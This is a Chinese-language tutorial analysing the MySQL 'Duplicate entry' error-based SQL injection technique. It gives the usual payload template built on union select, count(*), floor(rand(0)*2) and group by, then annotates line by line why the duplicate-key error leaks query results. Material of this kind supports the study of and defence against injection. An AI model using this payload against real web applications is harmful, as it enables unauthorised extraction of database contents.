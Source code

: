 # MySQL注入-重复条目报错回显注入公式原理分析

网上对于DuplicateEntry报错回显注入公式一般是如下的形式
```SQL
1' and 1=2 union select 1 from (select count(*),concat(floor(rand(0)*2),(单值式爆破语句))a from information_schema.tables group by a)b#
```


注入后数据库最终执行的语句类似以下格式：
```SQL
SELECT ... 
FROM ... 
WHERE id= '1' and 1=2
UNION
SELECT 1
FROM (
    SELECT 
        COUNT(*),
        CONCAT(
            FLOOR(RAND(0)*2),
            ( 单值式注入语句 ) 
        )a  
    FROM information_schema.tables  
    GROUP BY a 
) b--
```

这个公式有3个要点
1. 构造布尔断路引发的并联查询，目的是断路掉前面的查询，把查询流程完全引导到并联查询（union）语句中离去。payload为：
a' and 1=2 union select 
2. 嵌套优先报错的from子查询：由于并联查询(union)要求前后的列数目一致，需要把先执行的子查询中的duplicate entry错误抢在union select的列数不一致错误之前触发。这样列数多少就无关紧要了——因为代码永远不会执行到那就提前报错了。攻击载荷结构为: uinon
select 1 from ( 会产生duplicate entry的子查询语句 )b -- 。这里MySQL要求派生表必须提供别名（"Every derived table must have its own alias"），否则报错 
3. 构造产生duplicate entry错误的查询。

为什么会产生Duplicate entry错误呢？ 

知乎上[路西法同学对Duplicate entry的产生原因](http://www.zhihu.com/question/21031129)分析非常清晰。根据MySQL手册，rand()不可以作为ORDER BY的条件字段， 同理也不可以为group by的。上面这个mysql的bug的主要问题是获取的值不确定又可重复。同时又要来操作结果。值得注意的是，如果没有重新刷一次结果（例子中用的是count(*)来统计结果），单纯以rand制造会重复的不确定数也是没有效果的，如去掉count(*),那么也不会报错 ，所以使用left(rand(),3)之类的也是可以的（会产生会重复不确定的数）
整理这段注入代码的构造思路如下：

```SQL
...
WHERE id= '1' and 1=2
UNION
SELECT 1
FROM (
    SELECT 
        COUNT(*),    ##刷新
        CONCAT(      ##制造具有随机名称的字段
            FLOOR(RAND(0)*2),    ##制造随机数
            ( 单值式注入语句 )   ##真正需要执行的SQL指令，必须是单值式SQL命令
        )a           ##为制造出来的随机字段创建别名
    FROM information_schema.tables  
    GROUP BY a       ##利用制造出来的随机字段分组
) b--                ##MySQL要求派生表必须提供别名
```


 

 
